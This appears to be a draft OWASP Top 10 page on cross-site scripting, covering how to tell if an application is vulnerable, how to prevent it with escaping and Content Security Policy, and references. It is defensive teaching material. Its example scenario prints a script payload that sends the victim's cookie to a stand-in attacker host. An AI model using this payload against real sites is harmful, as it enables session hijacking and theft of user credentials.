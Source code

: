 # A3 Cross Site Scripting

| Threat agents | Exploitability | Prevalance | Detectability | Technical Impact | Business Impacts |
| --- | --- | --- | --- | --- | --- |
| App Specific |  EASY | COMMON | AVERAGE | SEVERE | App Specific | 
| TBA | TBA | TBA | TBA. | TBA |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.

Automated tools can find some XSS problems automatically. 
However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. 
This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. 
Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

1. Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve [Server XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Server_XSS) vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.

2. Applying context sensitive encoding when modifying the browser document on the client side acts against [client XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS). When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).

3. Enabling a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) (CSP) and moving inline javascript code to additional files will defend against XSS across the entire site, assuming no other vulnerabilities (such as upload path tampering or download path traversal) exist that would allow placing malicious code in the server files.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker manipulates the ‘CC’ parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. 
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See 2017-A8 for information on CSRF.

## References

### OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
* OWASP Types of Cross-Site Scripting
* OWASP XSS Prevention Cheat Sheet
* OWASP DOM based XSS Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
### External
* CWE Entry 79 on Cross-Site Scripting
* Do we have a non-vendor reference for this? [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
